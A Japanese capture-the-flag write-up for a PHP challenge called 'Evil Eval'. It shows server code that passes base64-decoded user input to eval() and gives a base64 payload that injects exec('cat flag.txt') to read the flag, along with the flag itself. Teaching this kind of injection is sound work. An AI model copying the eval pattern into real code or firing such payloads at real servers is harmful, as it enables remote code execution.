 # Evil Eval
シーザー暗号の次は, base64をデコードするページを実装したらしい。  
とはいえ, この実装ってあまり良くないんじゃ......  

flag.txtが同じディレクトリにあるらしいから, それを読みだしてこの実装の危険性を教えてあげて。  

http://34.82.49.144:3337/  

## Attachment
 - [show.php](./show.php)

# 解法
show.phpを見ると, 下記の部分で文字列を入力していることがわかります。  

```
<?php
$result = "";
    if (isset($_GET['data'])) {
        $data = $_GET['data'];
        $raw = base64_decode($data);
        eval('$result = ' . $raw . ';');
    }
?>
```

ここでは, GETリクエストで`?data`パラメータに入った値をbase64でデコードして, `eval('$result = ' . $raw . ';')`を実行しています。  
そのため, base64でエンコードした値を`?data`パラメータに入れておけば, `eval('$result = {任意の文字列};')`を実行できることになります。  

[`eval`](https://www.php.net/manual/ja/function.eval.php)はその中の文字列をPHPコードとして評価します。そのため, `0; echo exec('cat flag.txt')`を入力できれば, `eval('$result = 0; echo exec('cat flag.txt')';)`を実行できます。  

この文字列をbase64でエンコードした`MDsgZWNobyBleGVjKCdjYXQgZmxhZy50eHQnKQ==`を入力すれば, フラグが得られます。  

# 別解
後から気づいたのですが, flag.txtのパーミッションに欠陥があり, http://34.82.49.144:3337/flag.txt にアクセスすると`flag.txt`が表示されます。  
しょうもないところでミスをしてしまい, 申し訳ありませんでした。  

# フラグ
`taskctf{eval_1s_b4d_h4bit}`  


